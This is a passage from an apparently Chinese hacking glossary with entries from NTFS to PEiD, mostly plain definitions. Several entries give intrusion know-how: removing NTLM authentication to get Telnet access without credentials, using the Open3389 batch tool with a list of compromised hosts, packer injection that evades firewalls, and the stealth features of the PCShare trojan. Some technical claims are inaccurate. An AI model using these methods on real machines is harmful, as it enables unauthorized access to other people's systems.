NTFS 采用了更小的簇，可更有效率地管理磁盘空间。NTFS 使用一个“变更”日志来跟踪记录文件所发生的变更，还可以加密文件数据等。

### NTFS 的优点如下：

- 1、具备错误预警的文件系统

如果主文件表（MFT）损坏，NTFS 文件系统会较智能地将 MFT 换到硬盘的其他扇区，保证了文件系统的正常使用，即保证了 Windows 的正常运行。

- 2、文件读取速度更高效

NTFS 文件系统中的文件属性可分成两种：常驻属性和非常驻属性。常驻属性直接保存在 MFT 中，像文件名和相关时间信息（例如创建时间、修改时间等）永远属于常驻属性；非常驻属性则保存在 MFT 之外，但会使用一种复杂的索引方式来进行指示。如果文件或文件夹小于 1500 字节（其实我们的电脑中有相当多这样大小的文件或文件夹），那么它们的所有属性，包括内容都会常驻在 MFT 中，而 MFT 是 Windows 一启动就会载入到内存中的。这样，当你查看这些文件或文件夹时，其实它们的内容早已在缓存中了，自然大大提高了文件和文件夹的访问速度。

- 3、磁盘自我修复功能

NTFS 利用一种“自我疗伤”的系统，可以对硬盘上的逻辑错误和物理错误进行自动侦测和修复。

NTFS 文件在每次读写时，它都会检查扇区正确与否。当读取时发现错误，NTFS 会报告这个错误；当向硬盘写文件时发现错误，NTFS 将会十分智能地换一个完好位置存储数据，操作不会受到任何影响。在这两种情况下，NTFS 都会在坏扇区上作标记，以防今后被使用。这种工作模式可以使磁盘错误较早地被发现，避免灾难性的事故发生。

- 4、“防灾赈灾”的事件日志功能

在 NTFS 文件系统中，任何操作都可以被看成是一个“事件”。事件日志的作用不在于它能挽回损失，而在于它监督所有事件，从而让系统永远知道完成了哪些任务、哪些任务还没有完成，保证系统不会因为断电等突发事件发生紊乱，最大程度降低了破坏性。

## NTFS分区

指文件系统为 NTFS 的分区。

## NTLM协议

NTLM 是 NT LAN Manager 的缩写，是微软针对容易被破解的 LM 验证机制提出的 Windows NT 挑战/响应认证机制，即它是 LM 协议的加强版，但在更高的安全环境下，会使用 NTLM2 或 Kerberos 进行验证。早期的 SMB 协议在网络上明文传输口令，这是很不安全的。微软随后提出了 Windows NT 挑战/响应验证机制，即 NTLM。一般 NTLM 是被关闭的，用户也用不上，但对于入侵者来说，NTLM 是一座大山。

### NTLM协议具体验证过程是这样的：

- 1、客户端首先将用户密码加密成为密码散列；
- 2、客户端向服务器发送自己的用户名，这个用户名是用明文直接传输的；
- 3、服务器产生一个 16 位的随机数字发送给客户端，作为一个 Challenge（挑战）；
- 4、客户端用步骤 1 得到的密码散列来加密这个 Challenge，然后把这个返回给服务器；
- 5、服务器把用户名、给客户端的 Challenge、客户端返回的 Response 发送给域控制器；
- 6、域控制器用这个用户名在 SAM 密码管理库中找到这个用户的密码散列，然后使用这个密码散列来加密 Challenge；
- 7、域控制器比较两次加密的 Challenge，如果一样，那么认证成功。

NTLM 一个典型的应用就是 `Telnet`。NTLM 是以当前用户的身份向 Telnet 服务器发送登录请求的，而不是用对方管理员账户和密码登录。所以在不知道对方主机用户名密码的情况下，用 Telnet 登录时必须除掉 NTLM。

### 除掉NTLM有如下几种方法：

- 1、通过修改远程注册表更改 Telnet 服务器配置，将验证方式从 2 改为 1 或 0；
- 2、使用 NTLM.exe，上传后直接运行，可将 Telnet 服务器验证方式从 2 改为 1；
- 3、在本地建立扫描到的用户，以此用户身份开启 Telnet 客户端并进行远程登录（此方法详情见 `Telnet`）；
- 4、使用软件，比如 opentelnet.exe。

## NTOP 应用程序

NTOP 是一款监控网络流量的工具，它可以通过分析网络流量来确定网络上存在的各种问题，也可用来判断是否有黑客正在攻击网络系统。还可以很方便地显示出特定的网络协议、占用大量带宽的主机、各次通信的目标主机、数据包的发送时间、传递数据包的延时等详细信息。通过了解这些信息，网管可对故障做出及时响应，对网络进行相应的优化调整，以保证网络运行的效率和安全。

## NTLM密码散列 操作系统及其相关

又称 NTLM HASH，它是指 NTLM 协议中对密码进行加密后的散列，其具体加密过程如下：

假设明文口令是“123456”，首先转换成 `Unicode` 字符串。

```text
"123456" -> 310032003300340035003600
```

接着对所获取的 Unicode 串进行标准 MD4 单向哈希加密，无论数据源有多少字节，MD4 固定产生 128-bit 的哈希值，16 字节。

- 进行标准 MD4 单向哈希：

`32ED87BDB5FDC5E9CBA88547376818D4`

这样就得到了最后的 NTLM Hash：`32ED87BDB5FDC5E9CBA88547376818D4`。与 LM Hash 算法相比，明文口令大小写敏感，无法根据 NTLM Hash 判断原始明文口令是否小于 8 字节。MD4 是真正的单向哈希函数，穷举作为数据源出现的明文，难度较大。

虽然微软一味强调 NTLM Hash 的强度高，却避而不谈一个事实：为了保持向后的兼容性，NTLM Hash 缺省总是与 LM Hash 一起使用。这意味着 NTLM Hash 强度再高也是无助于安全的，相反却在损害着安全性。

增加 NTLM Hash 后，首先利用 LM Hash 的弱点穷举出原始明文口令的大小写不敏感版本，再利用 NTLM Hash 修正出原始明文口令的大小写敏感版本。这也是许多破解微软认证方式软件的基础所在。

## NTPacker（加密解密）

NTPacker 是一款加密/压缩工具，有三种加密/压缩方式，可随机生成密钥。根据需要可插入到 `Explorer.exe` 或其他指定进程以及生成新的进程，可穿越 Tiny Firewall 2005 等一些防火墙，并且具备反删除设置等功能。

## NTSD（操作系统及其相关）

NTSD 是 Windows 下一个结束进程的程序，具体语法：

- `ntsd -c q -p PID`
- `ntsd -c q -pn ImageName`，比如：`ntsd -c q -pn qq.exe`

```
-c  表示执行 debug 命令；
q   表示执行结束后退出（quit）；
-p  表示后面紧跟着是你要结束的进程对应的 PID；
-pn 表示后面紧跟着你要结束的进程名（process_name.exe，比如：QQ.exe、explorer.exe 等），而且后缀 .exe 是不可省略的。
```

## NULL（特定名称）

NULL 值表示一个变量没有值。

## Null News（脚本）

Null News 是一款基于 PHP 的新闻管理程序。


## OA（特定名称）

OA 是 Office Automation 的缩写，指办公室自动化或自动化办公。它是指利用技术手段提高办公效率，进而实现办公的自动化处理。OA 采用 Internet/Intranet 技术，基于工作流的概念，使企业内部人员方便快捷地共享信息，高效地协同工作。

它的出现改变了过去复杂、低效的手工办公方式，实现了迅速、全方位的信息采集、信息处理，为企业的管理和决策提供了科学的依据。

一个企业实现办公自动化的程度也是衡量其实现现代化管理的标准。OA 从最初的以大规模采用复印机等办公设备为标志的初级阶段，发展到今天以运用网络和计算机为标志的现代化阶段，对企业办公方式的改变和效率的提高起到了积极的促进作用。

## Oblog（脚本）

Oblog 是一套比较流行的博客建站程序，分免费版和商业版等不同版本。

## OCX（操作系统及其相关）

OCX 是 OCX 控件的扩展名，用过 VB 或者 Delphi 一类可视化编程工具的人对这个都不会感到陌生，它们就是那些工具条上的小按钮，如 EditBox、Grid、ImageBox、Timer 等。每个控件都有自己的事件、方法和属性，合理应用这些控件将使编程非常容易。

首先，在程序的设计阶段可以设置一些属性，如大小、位置、标题（caption）等。在程序运行阶段，可以更改这些属性，还可以针对不同的事件调用不同的方法来实现对该控件的控制。

控件就好像一块块的积木，程序要做的事只是将这些积木搭起来。控件的最大好处是可以重复使用，甚至可在不同的编程语言间使用，如可在 VB 中嵌入用 VC 开发的控件。

控件的本质是微软公司的对象链接和嵌入（OLE）标准。由于它充分利用了面向对象的优点，使得程序效率得到了很大提高，从而得到广泛应用，国外有很多公司就是专门制作各种各样控件的。控件的最早形式是以 .VBX 的格式出现的，后来变成了 .OCX。由于 Internet 的广泛流行，微软公司推出了 ActiveX 技术，就是从 OLE 发展起来的，加入了 WWW 上的功能。所以目前最流行的是 ActiveX 插件。

## OC 偏移量转换器（加密解密）

一种破解辅助利器，用来转换偏移量，尤其针对 VB 编写的程序，对于定位按钮事件非常有效，省去了人工转换的麻烦，如图 O-1 所示。


图 O-1

## OD（应用程序，加密解密）

OllyDbg 的缩写。

## ODAY（特定名称）

ODAY 又称 0day，它代表第一时间与未公开的意思，在各个领域都有使用，黑客技术中主要指第一时间将程序破解，或者刚发现的漏洞与未公布的漏洞。

不过早期 ODAY 主要是在影视、软件、游戏、音乐等方面使用，由一些特别小组非法发布的数码内容。基本上每个 0day 发布作品中都包含了说明该发布作品的 NFO 文件，该文件主要包括发布小组的信息、发布作品的信息、破解信息等。

黑客圈中的 ODAY 以前一般在破解圈中使用，如果一个程序在刚发表不久就被破解，则可称之为 ODAY，这在当时是非商业的、纯粹的技术活动，破解者最多用 ODAY 来交换其他 ODAY，而并非金钱。

而现在，ODAY 含义已经变质，沾上了铜臭味，许多黑客在发现某个系统或程序的漏洞时并不公布与告知相关厂商，而是做出 Exploit 将其卖给其他愿意出高价的人，这个 Exploit 被圈中称作“枪”，而做出 Exploit 的人称为“造枪人”，这也是黑客产业链的主要组成部分之一。

一个好的 ODAY 可以卖出几万甚至几十万的价格，其他详情请见《黑客术语图文辞典》中文词汇版本中的黑客产业链词条。

## ODF 格式（操作系统及其相关）

ODF 即 Open Document Format，意为开放文档格式。ODF 格式是基于 XML 的纯文本格式，这与传统的二进制格式不同。ODF 格式最大的优势在于其开放性和可继承性，基于 ODF 格式的文档在许多年后仍然可以被最新版的任意一款办公软件打开使用。

传统的基于二进制的封闭格式文档在多年以后可能面临的问题是：由于办公软件的升级或者原先的办公软件公司倒闭导致老的文档不能再使用，这显然对于用户而言将面临可怕的数据损失，而开放的 ODF 格式将很好地解决这一问题。

OpenDocument 作为标准文档格式，由 OASIS 负责制定，它的目的是改变目前办公软件相互封闭、文档格式互不兼容的糟糕情况。ODF 格式可以让不同程序、平台之间都自由地交换文件，而不需要理会是何种应用程序所产生的文件，其主要的支持厂商是 Corel、IBM、Opera、甲骨文、红帽以及国内软件厂商红旗中文 2000 等。

制定 OpenDocument 标准的重要目的之一是为用户冲破法律上或者技术上的贸易壁垒提供保证，呵护他们对数据长久的访问权。这对于文件安全性有很高要求的各国政府机构来说正合心意，因此，很多国家的政府机构也越来越清楚地意识到，开放格式作为国家政策文件电子版存放方式的重要性。目前，OpenDocument 受到了很多政府机构的青睐，而 ISO 标准的通过对于让政府组织采用 ODF 是非常重要的一步。

当前支持 ODF 格式的办公软件有：OpenOffice.org 2.0、StarOffice、KDE 环境下的 KOffice、Corel WordPerfect、IBM Lotus Notes，以及国内红旗中文 2000 的 RedOffice 3.0 等。

## OEP（加密解密）

OEP 是 Original Entry Point 的缩写，即程序加壳前的真正入口点。手工脱壳一般分三步：一是查找程序的真正入口点（OEP）；二是抓取内存映像文件；三是输入表重建（当然现在的加密壳复杂些，要考虑更多的东西）。常见的 OEP 入口代码应该记住，这个要靠平时的积累和收集。

## Office（应用程序）

Office 全称为 Microsoft Office，它是一套由微软公司开发的办公软件，它为 Microsoft Windows 和 Apple Macintosh 操作系统而开发。与办公室应用程序一样，它包括联合的服务器和基于互联网的服务。最近版本的 Office 被称为“Office system”，而不叫“Office suite”，反映出它们也包括服务器的事实。

Office 最初出现于二十世纪九十年代早期，刚开始是个推广名称，指一些以前曾单独发售的软件合集，当时主要的推广重点是购买合集比单独购买要省很多钱。最初的 Office 版本包含 Word、Excel 和 PowerPoint。另外一个专业版包含 Microsoft Access，Microsoft Outlook 当时尚不存在。

随着时间的流逝，Office 应用程序逐渐整合，共享一些特性，例如拼写和语法检查、OLE 数据整合和微软 Microsoft VBA（Visual Basic for Applications）脚本语言。最近，微软尝试将 Office 作为一个开发平台，但是结果祸福难料。Office 被认为是一个开发文档的事实标准，而且有一些特性在其他产品中并不存在，但其他产品也有 Office 缺少的特性。

## OLE/COM（程序语言与开发）

OLE 即 Object Linking and Embedding，意为对象连接与嵌入，简称 OLE 技术。在 Visual Basic 中添加控件的过程其实就是用了 OLE 技术。有了 OLE，就可将这种功能引入到应用程序中。

OLE 是在客户应用程序间传输和共享信息的一组综合标准，允许创建带有指向应用程序链接的混合文档，以使用户修改时不必在应用程序间切换的协议。它所创建的复合文档包含了创建于不同源应用程序、有着不同类型的数据，因此它可以把文字、声音、图像、表格等组合在一起。

OLE 不仅是桌面应用程序集成，而且还定义和实现了一种允许应用程序作为软件“对象”（数据集合和操作数据的函数）彼此进行“连接”的机制，这种连接机制和协议称为部件对象模型（Component Object Model），简称 COM。

OLE 基于组件对象模型（COM），并允许开发可在多个应用程序间互操作的可复用即插即用对象。该协议已广泛用于商业中，允许电子表格、字处理程序、财务软件包和其他应用程序可以通过客户/服务器体系共享和链接单独的信息。

### OLE 与 COM 的联系与历史如下

OLE 是一种面向对象的技术，利用这种技术可开发可重复使用的软件组件（COM）。

**ActiveX、OLE 和 COM 的总体概念**：从时间的角度讲，OLE 是最早出现的，然后是 COM 和 ActiveX；从体系结构角度讲，OLE 和 ActiveX 是建立在 COM 之上的，所以 COM 是基础；单从名称角度讲，OLE、ActiveX 是两个商标名称，而 COM 则是一个纯技术名词，这也是为什么 ActiveX 和 OLE 平时出现得更多的原因。

## OllyDbg（应用程序，加密解密）

OllyDbg 是一种具有可视化界面的 32 位汇编调试器，如图 O-2 所示，它的特别之处在于可以在没有源代码时解决问题，并且可以处理其他编译器无法解决的难题。


OllyDbg 极占内存，适合在 **RING3** 下调试 .exe、.dll 文件。

## OmniPeek（应用程序）

OmniPeek 是著名的图形化网络分析软件，如图 O-3 所示，它提供统一分析出错网络的管理界面，让网络管理者能透过统一界面同时分析多个网段的网络状况，更进一步分析底层的网络状况，以快速辨识问题。

其基于 WildPackets 屡获殊荣的 EtherPeek NX 技术，Omni3 包含了 OmniPeek 控制台、分布式 Peek DNX 引擎，这些组件无缝结合工作，可以透视复杂的分布式网络。

### OmniPeek 拥有的特点包括

- 基于信息包流的专家分析系统和应用分析
- 交互式节点图
- 完整的七层协议解码
- 应用响应时间（ART）分析
- 安全功能
- 监控与报表
- RMON 分布式分析


图 O-3

## Omziff（应用程序）

Omziff 是款简单的加密软件，它能使用各种不同的加密算法来加密或解密文件，包括：Blowfish、Cast128、Gost、IDEA、Misty1、AES/Rijndael、Twofish 等七种算法。此外还有多种功能，如随机密码生成器、文件粉碎机、文件切割机、哈希值计算器等。

## Open3389（黑客工具）

用来开启终端服务的工具，完全用批处理编写。命令使用方式如下：

```
tx3389.bat [IP] [用户名] [密码]
tx3389.bat [肉鸡文件]
```

如果指定肉鸡文件，批处理将从文件中读取 IP、用户名和密码。  
例 1：`tx3389 192.168.0.2 user ""`  
例 2：`tx3389 file.txt`  
肉鸡文件的文件格式为 `ip 用户名 密码`：

```
192.168.0.1 user ""
192.168.0.2 administrator 123
192.168.0.24 administrator admin
```

## OpenBSD（操作系统及其相关）

OpenBSD 是一个从 NetBSD 衍生出来的类 Unix 操作系统，其吉祥物是河豚，如图 O-4 所示。OpenBSD 包含了一些其他操作系统缺少或选择性的安全功能，并极度重视程序的品质，任何对核心的修改都需要经过严格审查。它可在 17 种不同的硬件环境下运作，包含 DEC Alpha、Intel i386、Hewlett-Packard PA-RISC、AMD64、Motorola 68000、PowerPC、Sun SPARC 等。


图 O-4

## OpenDocument 格式（操作系统及其相关）

即 ODF，详情见其词条。

## OpenGL（程序语言与开发）

OpenGL 的全称是“Open Graphics Library”，顾名思义，便是“开放的图形程序接口”。这个专业的 3D 程序接口功能强大，能方便调用底层 3D 图形库。虽然 DirectX 在家用市场全面领先，但在专业高端绘图领域，OpenGL 是不能被取代的主角。

OpenGL 作为与硬件无关的软件接口，可在不同的平台（如 Windows 95、Windows NT、Unix、Linux、MacOS、OS/2）之间进行移植。因此，支持 OpenGL 的软件具有很好的移植性，可获得非常广泛的应用。由于 OpenGL 是 3D 图形的底层图形库，没有提供几何实体图元，不能直接用于描述场景。但通过一些转换程序，可以很方便地将 AutoCAD、3DS 等 3D 图形设计软件制作的 DFX 和 3DS 模型文件转换成 OpenGL 的顶点数组。

## OpenSolaris（操作系统及其相关）

OpenSolaris 是 Sun 公司创建的一个开源项目，其目的是建立一个围绕 Solaris 操作系统相关技术的开发者社区。该项目针对的对象包括致力于开发和改进 Solaris 操作系统的开发人员、系统管理员和最终用户。已有 11000 多人注册成为 OpenSolaris.org 的社区成员，其中 9900 以上不是 Sun 公司的雇员。整个社区的核心价值（开放、包容、尊重、诚实、品质、独立）都在社区和其领导者的言行以及如何引导社区发展技术的过程中得以体现。一个活跃的 OpenSolaris User Group community 正在世界范围内蓬勃发展，opensolaris.org 上已经涌现出众多的 OpenSolaris 技术社区和项目。

Solaris 源码的开放是一个渐进的过程。首先公开的源代码是 Solaris 的动态跟踪工具包（即 DTrace），这是一个帮助系统管理员和开发者优化系统性能和利用率的跟踪工具。DTrace 代码在 2005 年 1 月 25 日首先发布，一同亮相的还有 OpenSolaris.org 网站的雏形。同时，Sun 公司宣布 OpenSolaris 的代码将在 CDDL（Common Development and Distribution License）许可下发布，并将成立一个社区指导小组（Community Advisory Board，简称 CAB）。2005 年 6 月 14 日，Solaris 系统主体核心源代码发布，少量代码由于涉及第三方知识产权而没有公开，只以二进制方式提供。OpenSolaris 的源代码事实上就是最新的、正在开发过程中的 Solaris 源代码。

## OpenSSH（安全技术）

OpenSSH 是 SSH 协议的免费开源实现，也是 Linux 下常用的通信加密协议，它用安全、加密的网络连接工具代替了 Telnet、FTP、Rlogin、rsh 和 rcp 工具。OpenSSH 支持 SSH 协议的版本有 1.3、1.5 和 2。从 OpenSSH 2.9 版出来以后，默认的协议是版本 2，该协议默认使用 RSA 密钥。

使用 OpenSSH 工具将会增进你的系统安全性，所有使用 OpenSSH 工具的通信（包括口令）都会被加密。Telnet 和 FTP 使用纯文本口令，并被明文发送。这些信息可能会被截取，口令可能会被检索，然后未经授权的人员可能会使用截取的口令登录你的系统，从而对你的系统造成危害。你应尽可能地使用 OpenSSH 的工具集合来避免这些安全问题。

另一个使用 OpenSSH 的原因是：它自动把 DISPLAY 变量转发给客户机器。换句话说，如果你在本地机器上运行 X 窗口系统，并且使用 ssh 命令登录到了远程机器上，当你在远程机器执行一个需要 X 的程序时，它会显示在你的本地机器上。如果你偏爱图形化系统管理工具，却不能总是亲身访问该服务器，这就会为你的工作大开方便之门。

## OpenSSL（安全技术）

OpenSSL 即开源版本的 SSL。它是一个常用的加密协议，一般用来进行 Web 服务的安全传输。其采用 C 语言作为开发语言，这使得它具有优秀的跨平台性能。OpenSSL 支持 Linux、Windows、BSD、Mac、VMS 等平台，具有广泛的适用性。

SSL 是 Secure Socket Layer（安全套接层协议）的缩写，可以在 Internet 上提供秘密性传输。OpenSSL 整个软件包大概分成三个主要的功能部分：密码算法库、SSL 协议库以及应用程序。

OpenSSL 的目录结构自然也是围绕这三个功能部分进行规划的。OpenSSL 实现了 SSL 协议的 SSLv2 和 SSLv3，支持其中绝大部分算法协议。

随机数的生成和管理也提供了一整套的解决方法和支持 API 函数。随机数的好坏是决定一个密钥是否安全的重要前提。OpenSSL 还提供了其他一些辅助功能，如从口令生成密钥的 API、证书签发和管理中的配置文件机制等。

## OpenSUSE 操作系统及其相关

openSUSE 项目是由 Novell 发起的开源社区计划，旨在推进 Linux 的广泛使用。openSUSE.org 提供了自由简单的方法来获得 SUSE Linux。openSUSE 项目为 Linux 开发者和爱好者提供了开始使用 Linux 所需要的一切。

## OpenVPN LD_PRELOAD 环境变量传输漏洞 安全技术

受影响系统：OpenVPN 2.0 - 2.0.5

描述：

OpenVPN 是一个基于 OpenSSL 库的应用层 VPN 实现。OpenVPN 客户端允许服务器通过“setenv”配置指令向客户端 Shell 传送包括 LD_PRELOAD 在内的环境变量。攻击者可以在已知位置放置恶意文件，并加载该文件来执行任意代码。

## Opera 应用程序

Opera 起初是挪威 Opera Software ASA 公司制作的、支持多页面标签式浏览的网络浏览器。由于新版的 Opera 增加了大量网络功能，官方将 Opera 定义为一个网络套件。

Opera 支持多种操作系统，如 Windows、Linux、Mac、FreeBSD、Solaris、BeOS、OS/2、QNX 等。此外，Opera 还有手机版本，在 2006 年更与 Nintendo 签下合约，提供 NDS 及 Wii 游戏机 Opera 浏览器软件；也支持多语言，包括简体中文和繁体中文。

Opera 还提供很多方便的特性，包括 Wand 密码管理、会话管理、鼠标手势、键盘快捷键、内置搜索引擎、智能弹出式广告拦截、网址过滤、浏览器识别伪装和超过 400 种可方便下载更换的皮肤，界面也可在定制模式下通过拖放随意更改。下载一个大约 10M 的扩展以后，它甚至可让你用语音控制以及朗读网页（英文）。而以上这些（包括右键菜单）都可由用户自定义。

Opera 支持包括 SSL 2/3、TLS 在内的各种安全协议，支持 256 位加密，可以抵御恶意代码攻击、钓鱼攻击等。而其网页渲染速度也是当今速度最快的，它支持 W3C 标准。此外，它还可以通过作者模式和用户模式让有经验的使用者控制浏览网页的结构和字体等。

## Oracle 数据库

Oracle 是一个面向 Internet 计算环境的数据库，是在数据库领域一直处于领先地位的 Oracle 公司（即甲骨文）的产品。

可以说，Oracle 关系数据库系统是目前世界上流行的关系数据库管理系统，系统可移植性好、使用方便、功能强大，适用于各类大、中、小、微机环境。它是一种高效率、可靠性好、适应高吞吐量的数据库解决方案。

现在它已经被越来越多地应用在信息系统管理、企业数据处理、电子商务等领域。Oracle 公司也是全球最大的信息管理软件及服务供应商，成立于 1977 年，总部位于美国加州 Redwood Shore。

## ORDER BY 数据库

SQL Server 中的常用语句，ORDER BY 按照递增或递减顺序在指定字段中对查询的结果记录进行排序。

```sql
语法：
SELECT 字段表
FROM 表
WHERE 选择准则
[ORDER BY 字段1 [ASC | DESC] [, 字段2 [ASC | DESC] [, ...]]]
```

## OSDL 特定名称

Open Source Development Labs，开放源码实验室。

## OSI 特定名称

OSI 参考模型是 ISO（国际标准化组织）所制定的，OSI 就是 Open System Interconnection 的缩写，完整的意思为开放式系统互连协议。此模型作为网络通信的概念性标准框架，使通信在不同制造商的设备和应用软件所形成的网络上进行成为可能。简单地说，OSI 参考模型是被公认为计算机互连通信的基本体系结构模型，即一般通信都要遵循其中的规则。

OSI 模型一共有 7 层，每层可以完成一个任务（当然你也可以自己加层，不过前提是你可以编制相应的软件用来完成任务）。第 1 层为最低层，第 7 层自然也就为最高层了。简单地理解就是，层数越低，我们接触的机会也就越来越小，但所起到的作用却越来越大；相反，高层模型里所涉及到的协议和实际用途我们是经常接触到的，但是高层中如果缺失哪种协议也不会影响到其他协议，而底层就不一样了，某层缺失则可能影响通信。其次，还有几个重要的概念：

- A．网络是分层的，每一层分别负责不同的通信功能。
- B．数据发送时是自上而下，层层加码；数据接收时是自下而上，层层解码。
- C．逻辑上通信是在同级完成的。

好了，那到底是哪 7 层呢？我们来看图 0-5。

| OSI参考模型层次 | 各层的解释 | 具体功能 | 各层的代表协议 |
|---|---|---|---|
| 7 应用层 | 此层能让用户接触到网络，所有软件通信都在这个层。 | 电子邮件的传输、网页访问、文件传输 | SMTP/POP、TELNET、HTTP |
| 6 表示层 | 处理数据表现形式问题。 | 编码/解码、压缩/解压、格式转换等 | MIME、XML |
| 5 会话层 | 建立、维持和管理会话。 | 会话控制与同步 | RPC |
| 4 传输层 | 负责端到端的数据传输与可靠性。 | 分段、重组、流控、差错控制 | TCP、UDP |
| 3 网络层 | 负责逻辑寻址与路由选择。 | 路由、转发、拥塞处理 | IP、ICMP |
| 2 数据链路层 | 在相邻节点间传输帧。 | 成帧、差错检测、介质访问控制 | ARP、PPP、Ethernet |
| 1 物理层 | 定义物理介质与电气特性。 | 比特流传输 | Ethernet、ISDN |

图 0-5

## OVERLAY 加密解密

OVERLAY 其实就是附加数据的意思，使用易语言编译出来的程序，一般会带有 OVERLAY，用 PEiD 查一下都可以看见这个。


## P2P 黑客技术基础

P2P 是 Peer To Peer（点到点）的缩写，它是当今互联网最常用的技术，也是互联网整体架构的基础。近几年火爆的主要原因在于 P2P 文件共享软件的出现。P2P 并不是新的概念，从字面上理解，P2P 技术是一对一的模式，而我们平时浏览网站就是一对多。一对一模式的优势在于最大地利用网络上各节点，让资源均匀分配。互联网最基本的协议 TCP/IP 并没有客户机和服务器的概念，所有设备都是通信的、平等的一端。在十年前，所有互联网上的系统都同时具有服务器和客户机的功能。当然，后来发展的那些架构在 TCP/IP 之上的软件的确采用了客户机/服务器结构，比如：浏览器和 Web 服务器、邮件客户端和邮件服务器。但对于服务器来说，它们之间仍然是对等联网的。

以 E-mail 为例，互联网上并没有一个巨大的、唯一的邮件服务器来处理所有的 E-mail，而是对等联网的邮件服务器相互协作，把 E-mail 传送到相应的服务器上。所以说，E-mail 是 P2P 的一个典型应用。

简单地说，P2P 直接将人们联系起来，让人们通过互联网直接交互。它使网络上的沟通变得容易，更直接共享和交互，真正消除中间商。利用 P2P 技术，当前用户可以直接连接到其他用户的计算机，交换文件，而不是像以前那样连接到服务器去浏览与下载。其另一个重要特点是改变互联网现在以大网站为中心的状态，重返“非中心化”，并把权力交还给用户。

现今，利用 P2P 技术做成的文件共享软件层出不穷，用这种软件进行下载时，自己的电脑还要继续对其他主机进行上传，这样下载的人越多，下载速度越快。常见的 P2P 软件有 eMule（电骡）、酷狗、迅雷等。

事实上，网络上现有的许多服务都可以归入 P2P 行列。比如即时讯息系统（如 ICQ、AOL Instant Messenger、Yahoo Pager、MSN Messenger、QQ）也是 P2P 应用，它们允许用户互相沟通和交换信息、交换文件。用户间的信息交流不是直接的，需要有位于中心的服务器来协调。

P2P 看起来似乎很新，但正如 B2C、B2B 将现实世界中很平常的东西移植到互联网上一样，在现实生活中，我们每天都按照 P2P 模式面对面或通过电话交流和沟通。

## PC-DOS 操作系统及其相关

PC-DOS（个人电脑—磁盘操作系统）是个人计算机最初广泛安装使用的操作系统。一般所说的 PC-DOS 是 IBM PC 计算机的操作系统，由微软为 IBM 开发。同时，微软也以 MS-DOS（微软—磁盘操作系统）为名销售同一类型软件。

PC-DOS 曾是（现在仍然是）一个非图形的、线导向的命令驱动操作系统，具有相对简单的界面，但并不过度“友好”的用户界面。可通过输入“C:>”这样的命令符执行 DOS 命令。

20 世纪 70 年代，在个人电脑发明以前，IBM 曾经有个运行在较小的商务计算机上的、不同的、不相干的 DOS（磁盘操作系统），最后逐渐被 IBM 公司的 VSE 操作系统所取代。

## PCAnywhere 应用程序

著名的远程控制软件，由鼎鼎大名的安全公司赛门铁克（Symantec）公司开发。可用它将你的电脑当成主控端去控制远方另一台同样装有 PCAnywhere 的电脑（被控端），可像控制自己的主机一样控制被控端电脑，或在主控端与被控端之间互传文件。

### 主要特点如下：

- 1、远程控制管理和文件传输功能相结合。
- 2、远程管理工具可快速解决特定问题，而无需完整的远程控制会话。
- 3、PCAnywhere 命令队列可用于将文件、文件夹和 DOS 命令发送到一台或多台计算机上。
- 4、快速部署和连接功能允许管理员快速启动与未安装 PCAnywhere 的计算机的远程控制会话。

PCAnywhere 也是许多木马争相模仿的对象，它与那些标榜为“远程控制软件”木马的根本区别在于：它不会主动隐藏自身，也没有偷窥隐私的功能（如键盘记录），所以 PCAnywhere 是款真正的远程控制软件，其界面如图 P-1 所示。


图 P-1

## PCShare 黑客工具

国内一款著名的木马，当然，它也自称是“一款计算机远程控制软件”，界面如图 P-2 所示。其特点包括：独创 HTTP 双连接实现全双工通信，通信方式为反向连接，多功能多进程管理，不同客户互相之间不影响。拥有屏幕数据传输、驱动隐藏、端口通信等达到系统级别的隐藏，其有极好的穿墙功能，能做到只要被控制端上网就能控制。


图 P-2

PCShare 学习了灰鸽子的长处，结合了最新的 RootKit 技术，用一般的系统扫描软件（如 HijackThis 等）无法检测到其木马服务信息，最近有泛滥的趋势。

PCShare 的客户端体积小，自带客户端控制 EXE 压缩技术，这款木马开始为共享软件，后来逐渐转为有商业版本。

## PDF2Word 应用程序

PDF2Word 是款转换程序，能从 PDF 格式文档中提取文字、图形和其他内容，存放入 Word 格式文档中。因此，你能重复利用 PDF 文档内容，在 Word 中再编辑文字、排版及重整布局。它是一个独立软件，不需安装 Microsoft Word、Adobe Acrobat 软件进行支持！

**注：**通过在未安装 Microsoft Word、Adobe Acrobat 的虚拟机裸机上测试，此 PDF 转换器确实完全无需上述两软件的辅助，而且对包括各种编码在内的中、日、韩等东亚语系的方块字支持良好，不存在转换过程中漏字、丢字的现象，甚至连 PDF 的批注等都可以完美还原！

## PDF 格式 操作系统及其相关

PDF 是 Portable Document Format 的缩写，译为可移植文件格式，是网络上常用的文档格式。

PDF 文件格式的优点在于：文件格式与操作系统平台无关。即 PDF 文件不管是在 Windows、Unix 还是在苹果公司的 Mac OS 操作系统中都是通用的。

PDF 阅读器（Adobe Reader）是 Adobe 公司开发的一种电子文档阅读软件，Adobe 公司免费提供 PDF 阅读器下载。这一特点使其成为 Internet 上进行电子文档发行和数字化信息传播的理想文档格式。越来越多的电子图书、产品说明、公司文告、网络资料、电子邮件开始使用 PDF 格式文件。PDF 格式文件目前已成为数字化信息事实上一个工业标准。

## PDF 阅读器 应用程序

PDF 阅读器指专门用于打开后缀为 .PDF 文档格式的程序，典型的有超星阅读器。

## PE Editor 应用程序

一款典型的 PE 文件编辑工具，主要功能有：显示详细的节段信息，可查看编辑区段名称、大小、执行属性等相关信息；清除选定的区段名称，对区段进行自动修复，从磁盘加载区段；保存区段到磁盘，增加一个新的区段；从文件中删除区段，从 PE 头中删除区段（区段内容实质还在），用指定的数据填充区段。

## PE Sniffer 加密解密

PE Sniffer 的中文为 PE 嗅探器，主要用于嗅探程序的真正编写语言，即使加了壳，也能嗅探出来，但是大部分加密壳加密后，能嗅探出来的几率很低。PE Sniffer 是一个 DLL 文件，它已经集成在 PETool 工具中，当然如果使用者想在 PEiD 也集成上去的话，找一个 PEiD 的 DLL 插件放在其目录下即可。

## PECompact 加密解密

一个能压缩可执行文件的工具，通过压缩代码、数据、相关资源使压缩率能达到 100%！由于在运行时不需恢复磁盘上压缩后的数据，所以与没有压缩的程序相比，在运行时没有明显的速度差异，在某种程度上还有所改善。

## PEiD 应用程序，加密解密

